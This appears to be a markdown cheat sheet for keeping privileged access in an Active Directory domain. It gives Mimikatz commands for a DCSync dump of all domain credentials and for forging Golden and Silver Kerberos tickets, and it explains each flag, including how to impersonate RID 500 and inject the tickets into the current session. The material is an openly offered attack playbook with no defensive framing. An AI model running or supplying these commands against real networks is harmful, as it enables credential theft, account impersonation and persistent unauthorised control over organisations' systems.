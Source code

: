 
# Credentials:
### The goal then is to persist with near-privileged credentials.
  - **Credentials that have local administrator rights on several machines**
  - **Service accounts that have delegation permissions**
  - **Accounts used for privileged AD services**

### there are many ways to dump credentials or hijack sessions.
for example:

## DCSync:
```
  - mimikatz # lsadump::dcsync /domain:<Domain-name> /all
```

# Tickets:
  - **Golden Tickets**
  - **Silver Tickets**

### Generate Golden Tickets:
```
  mimikatz # kerberos::golden /admin:<anyone> /domain:<Domain-name> /id:500 /sid:<Domain SID> /krbtgt:<NTLM hash of KRBTGT account> /endin:600 /renewmax:10080 /ptt
```
- **after executing this, the ticket is loaded into memory and we can access privileged resources in the domain**
- **/admin** - The username we want to impersonate. This does not have to be a valid user.
- **/domain** - The FQDN of the domain we want to generate the ticket for.
- **/id** -The user RID. By default, Mimikatz uses RID 500, which is the default Administrator account RID.
- **/sid** -The SID of the domain we want to generate the ticket for.
- **/krbtgt** -The NTLM hash of the KRBTGT account.
- **/endin** - The ticket lifetime. By default, Mimikatz generates a ticket that is valid for 10 years. The default Kerberos policy of AD is 10 hours (600 minutes)
- **/renewmax** -The maximum ticket lifetime with renewal. By default, Mimikatz generates a ticket that is valid for 10 years. The default Kerberos policy of AD is 7 days (10080 minutes)
- **/ptt** - This flag tells Mimikatz to inject the ticket directly into the session, meaning it is ready to be used.

### Generate Silver Tickets:
```
  mimikatz # kerberos::golden /admin:<anyone> /domain:<Domain-name> /id:500 /sid:<Domain SID> /target:<Hostname of server being targeted> /rc4:<NTLM Hash of machine account of target> /service:cifs /ptt
```
- **after executing this, the ticket is loaded into memory and we can access a specific privileged resources in the domain**
- **/admin** - The username we want to impersonate. This does not have to be a valid user.
- **/domain** - The FQDN of the domain we want to generate the ticket for.
- **/id** -The user RID. By default, Mimikatz uses RID 500, which is the default Administrator account RID.
- **/sid** -The SID of the domain we want to generate the ticket for.
- **/target** - The hostname of our target server. Let's do SERVERname.sub.DomainName.com, but it can be any domain-joined host.
- **/rc4** - The NTLM hash of the machine account of our target. Look through your DC Sync results for the NTLM hash of SERVERname$. The $ indicates that it is a machine account.
- **/service** - The service we are requesting in our TGS. CIFS is a safe bet, since it allows file access.
- **/ptt** - This flag tells Mimikatz to inject the ticket directly into the session, meaning it is ready to be used.
